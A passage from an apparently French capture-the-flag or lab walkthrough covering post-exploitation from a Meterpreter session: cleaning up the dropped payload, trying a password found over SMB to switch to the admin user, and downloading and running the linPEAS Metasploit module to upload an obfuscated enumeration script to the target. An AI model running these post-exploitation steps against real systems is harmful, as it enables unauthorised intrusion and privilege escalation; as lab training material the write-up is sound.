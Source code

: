 le meterpreter est up : utiliser `bg` ou `background` pour sortir du meterpreter mais garder la session ouverte.

```sh
# nettoyer le payload
pushd ../apache-80
make run CMD="rm teamNoname.odt"
make clean
popd
```

et on est dans la place proprement !

## tentative d'authn sur le user admin

dans la session meterpreter

```sh
shell -t
su - admin
# saisie du password trouvé en 02-smb-445
su: Authentication failure
```

KO

## linpeas

linPEAS est un énumérateur de système linux. Il va nous remonter plein d'infos sur le système et sa configuration, informations beaucoup plus approfondies que ce qu'on a gratté à la main dans [04-apache-80](../04-apache-80/).


### tentative par metasploit

je connaissais pas le plugin metasploit et par curiosité j'ai voulu essayer.

https://github.com/peass-ng/PEASS-ng/blob/master/metasploit/README.md

```sh
sudo wget https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/metasploit/peass.rb -O /opt/metasploit-framework/embedded/framework/modules/post/multi/gather/peass.rb
```

note: sur votre distrib les modules metasploit sont peut-être à tout autre endroit ;)

dans msfconsole
```sh
reload_all
use post/multi/gather/peass
sessions

run session=3 verbose=true
[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to /tmp/fr5bh...
[-] Post interrupted by the console user
[*] Post module execution completed
```
